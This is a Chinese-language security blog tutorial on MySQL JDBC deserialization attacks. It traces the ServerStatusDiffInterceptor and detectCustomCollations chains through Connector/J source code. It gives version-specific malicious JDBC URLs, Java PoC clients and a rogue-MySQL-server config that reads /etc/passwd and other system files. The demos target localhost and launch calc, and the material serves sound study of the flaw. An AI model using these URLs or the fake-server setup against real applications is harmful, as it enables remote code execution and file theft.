---
title: "MySQL JDBC反序列化链"
date: 2025-09-04T15:11:36+08:00
summary: "MySQL JDBC Attack"
url: "/posts/Java之MySQL JDBC 反序列化/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

# 0x01什么是JDBC？

JDBC（Java Database Connectivity）简单来说是一种用于执行sql语句的Java接口，即数据库连接，是一种用来规范Java如何访问和操作数据库的API，可以为多种数据库提供统一访问的接口

JDBC的作用其实也很明显，由于不同的数据库都有自己的通信协议和驱动实现，而JDBC为这些数据库都提供了统一的接口，所以方便了我们对不同的数据库进行操作

# 0x02JDBC的组成

这里先放一张图

参考文章：https://research.qianxin.com/archives/2414



这里演示了Java应用是访问不同数据库的工作机制

1. 首先就是通过JDBC API 调用数据库操作
2. JDBC Driver Manager 根据URL选择对应的JDBC Driver
3. 通过JDBC Driver 与数据库建立连接并执行sql语句

由此我们能得出JDBC的组成可以分为以下几层

- **JDBC API**

位于`java.sql`和`javax.sql`包中，提供了一组统一的接口和类，其中核心类和接口有：

`DriverManager`：管理数据库驱动

`Connection`：表示与数据库的连接

`Statement` / `PreparedStatement` / `CallableStatement`：执行 SQL

`ResultSet`：表示结果集

`SQLException`：异常处理

- **JDBC Driver Manager**（驱动管理器）

用来管理和选择不同的数据库驱动程序，**根据JDBC URL 选择合适的Driver来建立数据库连接**，所以也叫驱动管理器

- **JDBC Driver**（数据库驱动）

不同的数据库厂商会提供不同的数据库驱动，可以将JDBC API调用翻译成对应数据库的协议和命令

常见的驱动有：

MySQL：`com.mysql.cj.jdbc.Driver`

Oracle：`oracle.jdbc.driver.OracleDriver`

PostgreSQL：`org.postgresql.Driver`

# 0x03MYSQL JDBC 反序列化漏洞介绍

## 漏洞原理

若攻击者能控制JDBC连接设置项，则可以通过设置其配置指向恶意MySQL服务器触发ObjectInputStream.readObject()，构造反序列化利用链从而造成RCE。

当通过JDBC去连接MYSQL服务器时，通常会有几条内置语句需要执行，而其中存在两条查询语句在MYSQL服务端处理的时候会被ObjectInputStream.readObject()进行反序列化处理，所以这两条查询语句就是我们的入手点：

- SHOW SESSION STATUS
- SHOW COLLATION

## 漏洞利用前提

- Jdbc可控且目标机器出网。
- 存在反序列化漏洞链。

## JDBC连接参数

- autoDeserialize

当 `autoDeserialize=true` 时，驱动在读取 **BLOB 类型数据**时，会自动尝试调用 `ObjectInputStream.readObject()` 把字节流反序列化成 Java 对象。这也是我们能否打出反序列化的关键！

- queryInterceptors（在8.0之前是StatementInterceptor）

`queryInterceptors` 是 MySQL JDBC Driver（`mysql-connector-java`）里一个 **可选参数**，可用来指定一个或多个实现了`com.mysql.cj.interceptors.QueryInterceptor`接口的类。这些类会充当一个**拦截器类**，在SQL查询前后进行拦截和操控，类似于servlet的filter过滤器的作用

- detectCustomCollations

`detectCustomCollations` 是 MySQL Connector/J 驱动的一个连接属性，用于启用对服务器自定义字符集和排序规则的检测和映射。

我们来看看`com.mysql.cj.interceptors.QueryInterceptor`这个接口有哪些方法

这个接口在mysql-connector-java中，需要在pom.xml中导入依赖

```xml
<dependency>
    <groupId>mysql</groupId>
    <artifactId>mysql-connector-java</artifactId>
    <version>8.0.19</version>
</dependency>
```

找到这个接口

```java
package com.mysql.cj.interceptors;

import java.util.Properties;
import java.util.function.Supplier;

import com.mysql.cj.MysqlConnection;
import com.mysql.cj.Query;
import com.mysql.cj.log.Log;
import com.mysql.cj.protocol.Message;
import com.mysql.cj.protocol.Resultset;
import com.mysql.cj.protocol.ServerSession;

public interface QueryInterceptor {
    QueryInterceptor init(MysqlConnection conn, Properties props, Log log);

    <T extends Resultset> T preProcess(Supplier<String> sql, Query interceptedQuery);

    default <M extends Message> M preProcess(M queryPacket) {
        return null;
    }

    boolean executeTopLevelOnly();

    void destroy();

    <T extends Resultset> T postProcess(Supplier<String> sql, Query interceptedQuery, T originalResultSet, ServerSession serverSession);

 
    default <M extends Message> M postProcess(M queryPacket, M originalResponsePacket) {
        return null;
    }
}

```

这里有两个拦截器函数，一个是查询前处理preProcess()和查询后处理postProcess()

```java
<T extends Resultset> T preProcess(Supplier<String> sql, Query interceptedQuery);
<T extends Resultset> T postProcess(Supplier<String> sql, Query interceptedQuery, T originalResultSet, ServerSession serverSession);
```

只要JDBC带上了这个，在执行SQL语句前 和 后 他就会有一层类似的`Filter`，默认调用其 预处理`preProcess` 和后处理`postProcess`等方法

## Demo测试

本地测试一下JDBC

先启动我们的mysql，这里我的mysql是5.7.26版本的

然后我们写一下demo

```java
package org.example;

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.ResultSet;
import java.sql.Statement;

public class JDBCTest {
    public static void main(String[] args) throws Exception {
        String url = "jdbc:mysql://127.0.0.1:3306/mytest?useSSL=false&serverTimezone=UTC";
        String user = "root";
        String password = "root";

        //加载驱动
        Class.forName("com.mysql.cj.jdbc.Driver");

        //通过DriverManager连接数据库
        Connection con = DriverManager.getConnection(url, user, password);
        System.out.println("Connected to database");

        //利用createStatement接口获取一个statement对象，用于执行sql语句
        Statement statement = con.createStatement();
        String sql = "select * from users";

        //执行sql语句，将结果保存在ResultSet对象中
        ResultSet resultSet = statement.executeQuery(sql);
        while (resultSet.next()) {
            int id = resultSet.getInt("id");
            String name = resultSet.getString("username");
            String pass = resultSet.getString("password");

            System.out.println("id:"+id+" username:"+name+" password:"+pass);
        }
        statement.close();
    }
}

```

输出结果

```bash
Connected to database
id:1 username:test password:123456
id:2 username:bao password:1008611
id:3 username:wanth3f1ag password:1008
id:4 username:1008 password:11111
```

serverTimezone=UTC 指定了数据库服务器的时区为协调世界时（UTC）没有正确的时间处理，运行是会报错的

# 0x04MYSQL JDBC 反序列化漏洞利用

依照上面说的，我们需要找到一个实现了`com.mysql.cj.interceptors.QueryInterceptor`接口的类，那我们全局搜索一下



## ServerStatusDiffInterceptor链



ServerStatusDiffInterceptor是一个StatFilter拦截器，主要用于统计数据库服务器状态的差异.在JDBC URL中设置属性queryInterceptors（8.0以下为statementInterceptors）为ServerStatusDiffInterceptor时，执行查询语句会调用拦截器的 preProcess 和 postProcess 方法，进而调用 getObject () 方法。

### readObject()<--preProcess()调用链

但是这里的话我们还是像之前分析反序列化那样，反向逆推

先找找可用的readObject方法

发现在`com.mysql.cj.jdbc.result.ResultSetImpl.getObject()`代码中

```java
    public Object getObject(int columnIndex) throws SQLException {
        try {
            this.checkRowPos();
            this.checkColumnBounds(columnIndex);
            int columnIndexMinusOne = columnIndex - 1;
            if (this.thisRow.getNull(columnIndexMinusOne)) {
                return null;
            } else {
                Field field = this.columnDefinition.getFields()[columnIndexMinusOne];
                switch (field.getMysqlType()) {
                        //返回该列在 MySQL 中的实际数据类型
                    case BIT:
                        //如果是BIT类型
                        if (!field.isBinary() && !field.isBlob()) {
                            //如果字段不是二进制存储也不属于BLOB二进制形式的长文本数据
                            return field.isSingleBit() ? this.getBoolean(columnIndex) : this.getBytes(columnIndex);//直接返回布尔值值或返回字节数组
                        } else {
                            byte[] data = this.getBytes(columnIndex);	//如果是二进制或 BLOB，则先取出原始的字节数据
                            if (!(Boolean)this.connection.getPropertySet().getBooleanProperty(PropertyKey.autoDeserialize).getValue()) {
                                //获取autoDeserialize连接参数判断是否为true
                                return data;
                            } else {
                                //如果为true
                                Object obj = data;
                                if (data != null && data.length >= 2) {	//如果data的长度大于等于2
                                    if (data[0] != -84 || data[1] != -19) {
                                        //判断是否是序列化数据
                                        return this.getString(columnIndex);
                                    }

                                    try {
                                        //反序列化操作
                                        ByteArrayInputStream bytesIn = new ByteArrayInputStream(data);
                                        ObjectInputStream objIn = new ObjectInputStream(bytesIn);
                                        obj = objIn.readObject();	//关键代码
                                        objIn.close();
                                        bytesIn.close();
                                    } catch (ClassNotFoundException cnfe) {
                                        throw SQLError.createSQLException(Messages.getString("ResultSet.Class_not_found___91") + cnfe.toString() + Messages.getString("ResultSet._while_reading_serialized_object_92"), this.getExceptionInterceptor());
                                    } catch (IOException var14) {
                                        obj = data;
                                    }
                                }

                                return obj;
                            }
                        }
```

这里只放了关键的一段，后面的没啥用，然后我们来分析一下代码

- 先是进行BLOB类型的判断，然后判断autoDeserialize连接参数是否为true，这些都是反序列化的前提判断
- 然后对数据的开头进行了检测，在 Java 的 **序列化机制**里，所有经过 `ObjectOutputStream.writeObject()` 序列化出来的数据，开头的两个字节固定是0xAC和0xED，十进制就是-84和-19
- 以上条件都满足后就进行了反序列化的操作

随后我们看看哪里调用到getObject

找到在com.mysql.cj.jdbc.util.ResultSetUtil#resultSetToMap()方法

```java
    public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
        while(rs.next()) {
            mappedValues.put(rs.getObject(1), rs.getObject(2));
        }

    }
```

这里用到了一个map的put方法进行存放键值对，然后我们看看哪里调用了resultSetToMap方法

在`com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor#populateMapWithSessionStatusValues()`方法

```java
    private void populateMapWithSessionStatusValues(Map<String, String> toPopulate) {
        java.sql.Statement stmt = null;
        java.sql.ResultSet rs = null;

        try {
            try {
                toPopulate.clear();

                stmt = this.connection.createStatement();
                rs = stmt.executeQuery("SHOW SESSION STATUS");
                ResultSetUtil.resultSetToMap(toPopulate, rs);
            } finally {
                if (rs != null) {
                    rs.close();
                }

                if (stmt != null) {
                    stmt.close();
                }
            }
        } catch (SQLException ex) {
            throw ExceptionFactory.createException(ex.getMessage(), ex);
        }
    }
```

再看看谁调用到了populateMapWithSessionStatusValues，那就是ServerStatusDiffInterceptor下的preProcess方法了



整体来看，这个拦截类执行查询语句会调用拦截器的 preProcess 和 postProcess 方法，跟着调用链进而调用 getObject () 方法，最后触发readObject进行反序列化。

然后我们来看看什么情况下会调用拦截器呢？

### 什么情况下会调用拦截器

将上面的demo进行调试，在JDBC连接数据库的地方打个断点

跟进getConnection后打上断点



这里的话是检测用户名和密码，继续跟进里面的getConnection

```java
    private static Connection getConnection(
        String url, java.util.Properties info, Class<?> caller) throws SQLException {
        /*
         * When callerCl is null, we should check the application's
         * (which is invoking this class indirectly)
         * classloader, so that the JDBC driver class outside rt.jar
         * can be loaded from here.
         */
        ClassLoader callerCL = caller != null ? caller.getClassLoader() : null;
        synchronized(DriverManager.class) {
            // synchronize loading of the correct classloader.
            if (callerCL == null) {
                callerCL = Thread.currentThread().getContextClassLoader();
            }
        }

        if(url == null) {
            throw new SQLException("The url cannot be null", "08001");
        }

        println("DriverManager.getConnection(\"" + url + "\")");

        // Walk through the loaded registeredDrivers attempting to make a connection.
        // Remember the first exception that gets raised so we can reraise it.
        SQLException reason = null;

        for(DriverInfo aDriver : registeredDrivers) {
            // If the caller does not have permission to load the driver then
            // skip it.
            if(isDriverAllowed(aDriver.driver, callerCL)) {
                try {
                    println("    trying " + aDriver.driver.getClass().getName());
                    Connection con = aDriver.driver.connect(url, info);
                    if (con != null) {
                        // Success!
                        println("getConnection returning " + aDriver.driver.getClass().getName());
                        return (con);
                    }
                } catch (SQLException ex) {
                    if (reason == null) {
                        reason = ex;
                    }
                }

            } else {
                println("    skipping: " + aDriver.getClass().getName());
            }

        }

        // if we got here nobody could connect.
        if (reason != null)    {
            println("getConnection failed: " + reason);
            throw reason;
        }

        println("getConnection: no suitable driver found for "+ url);
        throw new SQLException("No suitable driver found for "+ url, "08001");
    }
```

这里的话我们分析一下代码



这里的话是为了确保JDBC 驱动能从调用者的 ClassLoader 加载而不是在系统类加载器中加载



for循环遍历已注册的JDBC驱动列表，首先是通过isDriverAllowed去检查调用者是否有权限使用该驱动，尝试用connect去连接驱动

跟进这个connect方法



通过`ConnectionUrl.acceptsUrl(url)`检查传入的 JDBC URL 是否符合 MySQL 驱动支持的格式，继续跟进看看这里的检查逻辑



```java
private static final Pattern SCHEME_PTRN = Pattern.compile("(?<scheme>[\\w:%]+).*");
Matcher matcher = SCHEME_PTRN.matcher(connString);	//matcher用于执行正则表达式匹配
return matcher.matches() && Type.isSupported(decode(matcher.group("scheme")));
```

matches()方法执行匹配，并填充到groups数组中

`group("scheme")` 会根据组名 `"scheme"` 返回匹配到的子串，而SCHEME_PTRN中的正则表达式`?<scheme>[\\w:%]+)`是为了提取URL中的协议部分，例如`jdbc:mysql:`，所以scheme返回的结果就是`jdbc:mysql:`

可以测试一下

```java
Pattern pattern = Pattern.compile("(?<scheme>[\\w:%]+).*");
Matcher matcher = pattern.matcher("jdbc:mysql://localhost:3306/db");
if (matcher.matches()) {
    String scheme = matcher.group("scheme"); // scheme = "jdbc:mysql:"
}
```

外层的decode和isSupported就是对获取到的内容进行url解码并且检查是否在驱动列表中

跳出到connect方法继续执行



`conStr.getType()`返回连接的类型，这里可以看到type是SINGLE_CONNECTION，进入第一个分支



实例化了一个JDBC连接对象，通过`conStr.getMainHost()`去返回URL中指定的主机信息比如IP、端口、数据库名什么的



跟进getInstance后可以看到他获取信息的构造方法ConnectionImpl



随后调用至com.mysql.cj.jdbc.ConnectionImpl#initializeSafeQueryInterceptors()

```java
@Override
public void initializeSafeQueryInterceptors() throws SQLException {
    this.queryInterceptors = Util
        .<QueryInterceptor> loadClasses(
            this.propertySet.getStringProperty(PropertyKey.queryInterceptors).getStringValue(),
            "MysqlIo.BadQueryInterceptor", 
            getExceptionInterceptor())
        .stream()
        .map(o -> new NoSubInterceptorWrapper(
            o.init(this, this.props, this.session.getLog())))
        .collect(Collectors.toList());
}
```

这个方法会初始化并装配所有配置的QueryInterceptor 拦截器，封装后存入this.queryInterceptors中

继续调用至com.mysql.cj.jdbc.ConnectionImpl#createNewIO()，并进入connectOneTryOnly





尝试connect连接并setQueryInterceptors设置拦截器，调至initializePropsFromServer()方法

```java
String connectionInterceptorClasses = this.propertySet
    .getStringProperty(PropertyKey.connectionLifecycleInterceptors)
    .getStringValue();

this.connectionLifecycleInterceptors = null;

if (connectionInterceptorClasses != null) {
    try {
        this.connectionLifecycleInterceptors = Util
            .<ConnectionLifecycleInterceptor> loadClasses(
                this.propertySet.getStringProperty(PropertyKey.connectionLifecycleInterceptors).getStringValue(),
                "Connection.badLifecycleInterceptor", 
                getExceptionInterceptor())
            .stream()
            .map(o -> o.init(this, this.props, this.session.getLog()))
            .collect(Collectors.toList());
    } catch (CJException e) {
        throw SQLExceptionsMapping.translateException(e, getExceptionInterceptor());
    }
}
```

会从从配置中读取 **连接生命周期拦截器类名**并动态加载

一直走，直至来到com.mysql.cj.NativeSession#execSQL()

函数调用栈

```java
com.mysql.cj.NativeSession#execSQL()->
    com.mysql.cj.protocol.a.NativeProtocol#sendQueryString()->
    	com.mysql.cj.protocol.a.NativeProtocol#sendQueryPacket()->
    		com.mysql.cj.protocol.a.NativeProtocol#invokeQueryInterceptorsPre()
```

在invokeQueryInterceptorsPre方法中

```java
    public <T extends Resultset> T invokeQueryInterceptorsPre(Supplier<String> sql, Query interceptedQuery, boolean forceExecute) {
        T previousResultSet = null;

        for (int i = 0, s = this.queryInterceptors.size(); i < s; i++) {
            QueryInterceptor interceptor = this.queryInterceptors.get(i);

            boolean executeTopLevelOnly = interceptor.executeTopLevelOnly();
            boolean shouldExecute = (executeTopLevelOnly && (this.statementExecutionDepth == 1 || forceExecute)) || (!executeTopLevelOnly);

            if (shouldExecute) {
                T interceptedResultSet = interceptor.preProcess(sql, interceptedQuery);

                if (interceptedResultSet != null) {
                    previousResultSet = interceptedResultSet;
                }
            }
        }

        return previousResultSet;
    }
```

这里会遍历所有注册的查询拦截器并调用 `QueryInterceptor` 的 `preProcess` 方法



由此就可以来到我们上面注册的拦截器，至此整个过程就分析完了

### 攻击流程以及恶意服务器搭建

这里的话攻击流程是这样的：

- 攻击者设置一个恶意的MySQL服务器（或者劫持一个合法的连接）。
- 客户端尝试连接到这个恶意的MySQL服务器，URL中包含了autoDeserialize=true和queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor。
- 攻击者在恶意的MySQL服务器上，将反序列化gadget（yso_CommonsCollections4_calc对应的序列化数据）作为用户名或其他在特定拦截器处理流程中可能被反序列化的字段返回给客户端。
- 客户端的JDBC驱动在接收到服务器响应后，由于autoDeserialize=true，会尝试反序列化yso_CommonsCollections4_calc所代表的恶意数据。
- 反序列化成功后，CommonsCollections4的gadget被触发，执行攻击者预设的系统命令（例如弹出计算器）。

注意这里需要根据不同版本去设置不同名字的连接参数

```java
5.1.0-5.1.10：jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc  连接后需执行查询

5.1.11-5.1.48：jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc

5.1.49不可用

6.x：jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc  （包名中添加cj）

8.0.7-8.0.19：jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc
```

恶意的MYSQL服务器：https://github.com/fnmsd/MySQL_Fake_Server

具体怎么用呢？看到config.json

```json
{
    "config":{
        "ysoserialPath":"ysoserial-all.jar",
        "javaBinPath":"java",
        "fileOutputDir":"./fileOutput/",
        "displayFileContentOnScreen":true,
        "saveToFile":true
    },
    "fileread":{
        "win_ini":"c:\\windows\\win.ini",
        "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
        "win":"c:\\windows\\",
        "linux_passwd":"/etc/passwd",
        "linux_hosts":"/etc/hosts",
        "index_php":"index.php",
        "ssrf":"https://www.baidu.com/",
        "__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]
    },
    "yso":{
        "Jdk7u21":["Jdk7u21","calc"]
    }
}
```

因为源码中会从json文件中提取相关的数据



所以反序列化的话我们需要关注两个地方

```json
"yso":{
        "Jdk7u21":["Jdk7u21","calc"]
    }
```

这里的jdk7u21和calc，第一个key是我们的payload类型，比如CC1、CC3这些，第二个就是我们的command命令

结合这里的话我们的poc就是

### poc1

```java
5.1.0-5.1.10：jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc  连接后需执行查询

5.1.11-5.1.48：jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc

5.1.49不可用

6.x：jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc  （包名中添加cj）

8.0.7-8.0.19：jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc
```

#### 5.1.0-5.1.10

这里的是唯一一个比较特殊的地方，需要触发执行查询才能打

```java
package org.example;

import com.mysql.jdbc.PreparedStatement;

import java.sql.*;

public class ServerStatusDiffInterceptorPOC {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc";
        String user = "yso_CommonsCollections1_calc";
        String password = "";
        //加载驱动
        Class.forName("com.mysql.jdbc.Driver");

        //通过DriverManager连接数据库
        Connection con = DriverManager.getConnection(url, user, password);

        //利用createStatement接口获取一个statement对象，用于执行sql语句
        Statement statement = con.createStatement();
        String sql = "select database()";

        //执行sql语句，将结果保存在ResultSet对象中
        ResultSet resultSet = statement.executeQuery(sql);
        System.out.println("POC successfully!");
    }
}

```



#### 5.1.11-5.1.48

```java
package org.example;

import com.mysql.jdbc.PreparedStatement;

import java.sql.*;

public class ServerStatusDiffInterceptorPOC {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc";
        String user = "yso_CommonsCollections1_calc";
        String password = "";
        //加载驱动
        Class.forName("com.mysql.jdbc.Driver");

        //通过DriverManager连接数据库
        Connection con = DriverManager.getConnection(url, user, password);
        System.out.println("POC successfully!");
    }
}

```



#### 6.x

从这里开始的话名字就变了，包名中添加cj

```java
package org.example;

import com.mysql.cj.jdbc.PreparedStatement;

import java.sql.*;

public class ServerStatusDiffInterceptorPOC {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc";
        String user = "yso_CommonsCollections1_calc";
        String password = "";
        //加载驱动
        Class.forName("com.mysql.jdbc.Driver");

        //通过DriverManager连接数据库
        Connection con = DriverManager.getConnection(url, user, password);
        System.out.println("POC successfully!");
    }
}

```


#### 8.0.7-8.0.19

测试一下

这里7u21的漏洞有点太久远了，我这里用的cc1去测的，在pom.xml中导入cc1的依赖

那么我们的poc就是

```java
package org.example;

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class ServerStatusDiffInterceptorPOC {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc";
        String user = "yso_CommonsCollections1_calc";
        String password = "";
        //加载驱动
        Class.forName("com.mysql.cj.jdbc.Driver");

        //通过DriverManager连接数据库
        Connection con = DriverManager.getConnection(url, user, password);
        System.out.println("POC successfully!");
    }
}

```



记得在配置文件中更改一下触发链

```json
{
    "config":{
        "ysoserialPath":"ysoserial-all.jar",
        "javaBinPath":"E:\\jdk8\\jdk8u65\\bin\\java.exe",
        "fileOutputDir":"./fileOutput/",
        "displayFileContentOnScreen":true,
        "saveToFile":true
    },
    "fileread":{
        "win_ini":"c:\\windows\\win.ini",
        "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
        "win":"c:\\windows\\",
        "linux_passwd":"/etc/passwd",
        "linux_hosts":"/etc/hosts",
        "index_php":"index.php",
        "ssrf":"https://www.baidu.com/",
        "__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]
    },
    "yso":{
        "Jdk7u21":["CommonsCollections1","calc"]
    }
}
```

## detectCustomCollations链

### 漏洞触发

漏洞触发点在`com.mysql.cj.jdbc.ConnectionImpl#buildCollationMapping()`中

```java
if (javaCharset == null) {
			javaCharset = new HashMap<Integer, String>();

		if (versionMeetsMinimum(4, 1, 0) && getDetectCustomCollations()) {

			java.sql.Statement stmt = null;
			java.sql.ResultSet results = null;

			try {
					sortedCollationMap = new TreeMap<Long, String>();
					customCharset = new HashMap<Integer, String>();
					customMblen = new HashMap<String, Integer>();

					stmt = getMetadataSafeStatement();

					try {
						results = stmt.executeQuery("SHOW COLLATION");
						if (versionMeetsMinimum(5, 0, 0)) {
							Util.resultSetToMap(sortedCollationMap, results, 3, 2);
						} else {
							while (results.next()) {
								sortedCollationMap.put(results.getLong(3), results.getString(2));
							}
...
```

第一个if语句如果服务器版本大于等于4.1.0，并且`detectCustomCollations`选项为true的话就可以获取`SHOW COLLATION`的执行结果，然后如果版本大于5.0.0，就会调用`Util.resultSetToMap`方法，所以这里执行并获取了SHOW COLLATION的结果后，如果服务器版本大于等于5.0.0的话那么在执行这个SQL query就会把 `SHOW COLLATION` 的结果传入到上述的 `resultSetToMap` 方法中去触发我们的readobject方法造成反序列化。

### 版本限制

由于从5.1.49版本开始，不再使用getObject的方式获取`SHOW COLLATION`的结果，此方法失效。



5.1.18以下未使用getObject方式进行获取，同样无法使用此方法



### POC2

```java
5.0.x版本: 不可用
    
5.1.18以下的5.1.x版本: 不可用
    
5.1.19-5.1.28：jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc

5.1.29-5.1.48：jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc

5.1.49：不可用
    
6.0.x：jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc

8.x.x ：不可用
```

`detectCustomCollations`这个选项是从5.1.29开始的，`detectCustomCollations`这个选项在5.1.29之前一直为true。所以这也是为什么第二个poc不需要设置detectCustomCollations的原因

#### 5.1.19-5.1.28

buildCollationMapping的代码就不分析了，和上面的一样

```java
package org.example;

import com.mysql.jdbc.PreparedStatement;

import java.sql.*;

public class ServerStatusDiffInterceptorPOC {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        String url = "jdbc:mysql://127.0.0.1:3306/test?&autoDeserialize=true&user=yso_CommonsCollections1_calc";
        String user = "yso_CommonsCollections1_calc";
        String password = "";
        //加载驱动
        Class.forName("com.mysql.jdbc.Driver");

        //通过DriverManager连接数据库
        Connection con = DriverManager.getConnection(url, user, password);
        System.out.println("POC successfully!");
    }
}

```



#### 5.1.29-5.1.48

分开看，先看5.1.40之前的代码

`com.mysql.jdbc.ConnectionImpl#buildCollationMapping()`方法（mysql-connector-java 5.1.40）



这里判断服务版本大于4.1.0且detectCustomCollations为true则进入，新增了一个detectCustomCollations的判断，其他的没变化

在构造jdbc链接的时候要多加一个`detectCustomCollations=true`

然后看5.1.41-5.1.48的代码



5.1.41版本后，不再使用`com.mysql.jdbc.Util#resultSetToMap()`方法获取”SHOW COLLATION”的结果，但又直接调用了`results.getObject(3)`，跟进看看

调用至`com.mysql.jdbc.ResultSetImpl#getObject()`方法



这里固定会进入`getObjectDeserializingIfNeeded`方法



后面的流程就没啥变化了

```java
package org.example;

import com.mysql.jdbc.PreparedStatement;

import java.sql.*;

public class ServerStatusDiffInterceptorPOC {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        String url = "jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_CommonsCollections1_calc";
        String user = "yso_CommonsCollections1_calc";
        String password = "";
        //加载驱动
        Class.forName("com.mysql.jdbc.Driver");

        //通过DriverManager连接数据库
        Connection con = DriverManager.getConnection(url, user, password);
        System.out.println("POC successfully!");
    }
}

```



看5.1.49的代码



5.1.49版本不再调用results.getObject()，此利用链失效

#### 6.0.0-6.0.6

`com.mysql.cj.jdbc.ConnectionImpl#buildCollationMapping()`方法(mysql-connector-java 6.0.6)



依旧调用了`com.mysql.cj.jdbc.util.ResultSetUtil.resultSetToMap()`

所以我们的POC

```java  
package org.example;

import java.sql.*;

public class ServerStatusDiffInterceptorPOC {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        String url = "jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=evil";
        String user = "evil";
        String password = "";
        //加载驱动
        Class.forName("com.mysql.jdbc.Driver");

        //通过DriverManager连接数据库
        Connection con = DriverManager.getConnection(url, user, password);
        System.out.println("POC successfully!");
    }
}

```

但是运行的时候出现一个报错

```java
Loading class `com.mysql.jdbc.Driver'. This is deprecated. The new driver class is `com.mysql.cj.jdbc.Driver'. The driver is automatically registered via the SPI and manual loading of the driver class is generally unnecessary.
Exception in thread "main" java.sql.SQLException: java.lang.ClassCastException: java.lang.String cannot be cast to java.lang.Number
```

是因为该版本的jdbc依赖与较新版本的 MySQL Server 之间存在兼容性问题，但分析上来说是可以打的

## 参考文章

https://forum.butian.net/share/2872

https://tttang.com/archive/1877/#toc_1detectcustomcollations

https://infernity.top/2026/01/14/JDBC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/
